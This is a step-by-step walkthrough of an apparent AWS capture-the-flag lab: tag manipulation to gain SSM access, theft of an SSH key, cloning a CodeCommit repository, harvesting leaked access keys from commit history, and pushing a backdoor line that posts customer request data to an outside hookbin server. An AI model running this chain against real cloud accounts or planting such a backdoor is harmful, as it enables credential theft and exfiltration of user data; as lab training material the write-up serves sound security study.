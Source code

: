 

## Step 1

You are given credentials of an initial IAM user. 

Using the AWS CLI or AWS Console (e.g. using `aws-vault add initial` then `aws-vault login initial --no-session`), note that the IAM policy attached to your user allows it to establish a SSM session on all EC2 instances tagged with `Environment=sandbox`, and to manage tags of all EC2 instances tagged with `Environment=dev`.

Check the running EC2 instances. You notice one is tagged with `Environment=dev`, and you therefore can't SSM to it. Instead, overwrite the `Environment` tag with the value `sandbox`, then establish a SSM session to the instance:

```
aws ec2 create-tags --resources i-xxxx --tags Key=Environment,Value=sandbox
aws ssm start-session --target i-xxxx
```

## Step 2

On the instance, notice the private SSH key stored at `/home/ssm-user/.ssh/id_rsa`.

![Screen Shot 2022-06-21 at 6 29 59 PM](https://user-images.githubusercontent.com/4079939/174924027-54c04c15-a025-40f6-b0ba-be3d143be3d3.png)

- Copy the SSH key to your local machine (`~/.ssh/stolen_key`) and run `chmod 600 ~/.ssh/stolen_key` on it.

Next you can extract the corresponding public key fingerprint to notice it is linked to the CodeCommit credentials of the IAM user `cloner`, who has the permission `codecommit:GitPull` on a repository:

```
$ chmod 600 ~/.ssh/stolen_key
$ ssh-keygen -f ~/.ssh/stolen_key -l -E md5
2048 MD5:c8:86:28:03:a1:d5:af:77:2c:62:6a:73:59:69:c6:ba no comment (RSA)

$ aws iam list-ssh-public-keys --user-name cloner
{
  "SSHPublicKeys": [
    {
      "UserName": "cloner",
      "SSHPublicKeyId": "APKA254BBSGPK2B5K5YQ",
      "Status": "Active",
      "UploadDate": "2021-12-27T10:34:19+00:00"
    }
  ]
}
$ aws iam get-ssh-public-key --user-name cloner --ssh-public-key-id <SSHPublicKeyId found above> --encoding PEM --output text --query 'SSHPublicKey.Fingerprint'
c8:86:28:03:a1:d5:af:77:2c:62:6a:73:59:69:c6:ba
```

## Step 3

Set up your local environment to clone the repository using the [CodeCommit documentation](https://docs.aws.amazon.com/codecommit/latest/userguide/setting-up-ssh-unixes.html). In short:


- Find the CodeCommit user ID of `cloner` using `aws iam list-ssh-public-keys --user-name cloner --output text --query 'SSHPublicKeys[0].SSHPublicKeyId'`

- Use the following SSH configuration (in your `.ssh/config`):

```
Host git-codecommit.*.amazonaws.com
	IdentityFile ~/.ssh/stolen_key
	PubkeyAcceptedAlgorithms +ssh-rsa
        HostkeyAlgorithms +ssh-rsa
```

- Then, clone the repository using `git clone ssh://<SSH-KEY-ID>@git-codecommit.us-west-2.amazonaws.com/v1/repos/backend-api` (where `SSH-KEY-ID` should look like `APKA2...`)

## Step 4

The repository contains the backend code of the Lambda function exposed through the API gateway. Check the commit history to note a leaked access key:

```diff
commit 576bc9e2979cb780dacefa1cf758dabb29f6b223
Author: christophe <christophe>
Date:   Mon Dec 27 10:38:31 2021 +0000

    Use built-in AWS authentication instead of hardcoded keys

diff --git a/buildspec.yml b/buildspec.yml
index 7130465..4beaa61 100644
--- a/buildspec.yml
+++ b/buildspec.yml
@@ -1,22 +1,20 @@
-      version: 0.2
+version: 0.2
 phases:
   pre_build:
     commands:
-    - export AWS_ACCESS_KEY_ID=AKIA...
-    - export AWS_SECRET_ACCESS_KEY=hnOVW...dtX
     - echo "Authenticating to ECR"
```

## Step 5

These credentials you found belong to the user `developer`, who has pull and push access to this repository. Use this access to backdoor the application and steal the sensitive data that customers are sending to the API!

- For instance, add a piece of code to the checked out repo that sends the secret data to an attacker-controlled server:

```diff
diff --git a/app.py b/app.py
index 10e7da5..e17a2ba 100644
--- a/app.py
+++ b/app.py
@@ -3,6 +3,7 @@ import json

 def handle(event):
   body = event.get('body')
+  import requests; requests.post("https://hookbin.com/kx9QGWGQMoUBjzggjga9", data=body)
   if body is None:
     return 400, "missing body"
```

- Ensure the credentials you found above are set in your environment or a profile.

export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=hnOVW...dtX

- You can then commit the file and push it with the following AWS command:

```
$ aws codecommit get-branch --repository-name backend-api  --branch-name master
{
    "branch": {
        "branchName": "master",
        "commitId": "e6a2c7...."
    }
}

$ aws codecommit put-file --repository-name backend-api --branch-name master --file-content fileb://./app.py --file-path app.py --parent-commit-id <Commit ID found above>
```


Note that the application is automatically being built by a CI/CD pipeline in CodePipeline. After a few minutes, your backdoored application will be deployed, and your attacker-controlled server will receive the flag!

